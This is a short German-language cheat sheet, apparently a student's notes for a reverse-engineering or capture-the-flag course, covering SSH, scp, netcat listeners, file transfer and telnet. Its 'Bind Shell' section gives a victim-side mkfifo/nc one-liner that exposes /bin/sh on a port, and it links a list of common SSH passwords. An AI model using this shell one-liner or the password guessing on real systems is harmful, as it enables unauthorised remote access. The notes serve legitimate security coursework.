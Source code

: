 Beim Nachrichten vom Server ziehen auf Line endings achten
zb telnet haut alle \r raus und übernimmt nur \n
um das zu umgehen zB nc mit flag -C verwenden
großes C ist richtig

### SSH

SSH Connection aufbauen
`ssh <user>@<adress> -p <port>`

Dateien kopieren
`scp -p <destPort> <localFile> <destUser>@<destAdress>:/remote/directory /local/directory`
`-r` für recursive

`scp student@six.reverse-engineering.scenario.cip.institute:/home/student/challenge  /media/sf_Share`

Open SSH Port
Guide: https://www.cyberciti.biz/faq/ufw-allow-incoming-ssh-connections-from-a-specific-ip-address-subnet-on-ubuntu-debian/
Most common SSH passwords
https://gitlab.com/kalilinux/packages/seclists/-/blob/kali/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt

#### ncat
Für ausschließlich IPv6 Listener
`ncat -l6 6900`

### nc
nc Verbindung aufbauen
`nc <ip> <port>`
`-C` Behält line Endings

Auf Port listen
`nc -lp 6900`
`nc -lvnp 6900`

Send files
On your server: `nc -l -p 1234 -q 1 > something.zip < /dev/null`
On your sender client: `cat something.zip | netcat server.ip.here 1234`
Source: https://superuser.com/questions/98089/sending-file-via-netcat

##### Bind Shell
auf meinem Laptop
`nc ip-adr-opfer port-opfer`

Opfer Server
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -lp 6900 > /tmp/f`

### Telnet
Benutz ich eigtl nicht
Guide: https://phoenixnap.com/kb/telnet-linux

`telnet ^<targetIP> <targetPort>`